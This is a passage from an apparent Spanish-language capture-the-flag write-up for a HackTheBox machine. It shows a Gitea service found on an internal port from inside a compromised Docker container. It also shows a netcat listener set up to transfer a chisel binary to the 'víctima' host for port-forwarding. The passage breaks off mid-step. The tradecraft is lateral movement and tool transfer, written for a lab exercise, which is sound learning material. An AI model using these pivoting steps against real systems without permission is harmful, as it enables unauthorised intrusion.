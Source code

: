 ```bash
❱ nc 10.10.11.164 3000
❱ curl http://10.10.11.164:3000
❱ wget http://10.10.11.164:3000
```

Pero no logramos respuesta alguna, pero en el Docker:

```bash
/tmp # wget http://10.10.11.164:3000
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_dockerSH_wgetPORT3000.png" style="width: 100%;"/>

Opa, pues obtenemos respuestaaaaaaaaaaaaa! Así que de alguna forma el puerto se expone peeeero únicamente el **Docker** tiene acceso a él :O Dando un vistazo rápido al archivo que nos descargó (`index.html`) vemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/opensource/471bash_dockerSH_catINDEXhtml_PORT3000_gitea.png" style="width: 100%;"/>

Está corriendo el servicio [**Gitea**](https://gitea.io/en-us/) que es un gestor de versiones de proyectos (así como **GitHub**, pero con sus [variaciones](https://docs.gitea.io/en-us/comparison/)) :O

## Jugando con un port-fortwarding [📌](#chisel) {#chisel}

La cosa es que no tenemos forma visual de interactuar con el servicio, pero eso no es problema, acá podemos usar la lindura del **port-fortwarding**:

> "Podemos definir Port Forwarding, como la asignación o re-envío de puertos para transmitir información a través de una red." ~ [culturacion.com](https://culturacion.com/que-es-port-forwarding/)

Así de sencillo, es la opción que tenemos de reasignar la información de un puerto a otro servidor (y puerto) de la red, por lo que lo usaremos para indicarle que tome el contenido del puerto `3000` del servidor `10.10.11.164` y lo re-envíe a un puerto de nuestra máquina atacante para así tener acceso completo a ese contenido desde nuestro sistema. Hay varias maneras, yo empleare [chisel](https://github.com/jpillora/chisel), en los releases descargamos el mismo binario:

* `chisel_1.7.7_linux_amd64.gz`.

Descomprimimos y renombramos para comodidad:

```bash
❱ gzip -d chisel_1.7.7_linux_amd64.gz 
❱ mv chisel_1.7.7_linux_amd64 chisel
```

Y procedemos a subirlo a la máquina víctima con ayuda de `netcat`, levantamos servidor que una vez alguien se conecte enviara el contenido del objeto `chisel`:

```bash
❱ nc -lvp 4434 < chisel 
listening on [any] 4434 ...
```

Y nos conectamos, dando un tiempo de espera de **5** segundos para no perder la shell y guardando el contenido de la conexión en un archivo llamado `chisel`:
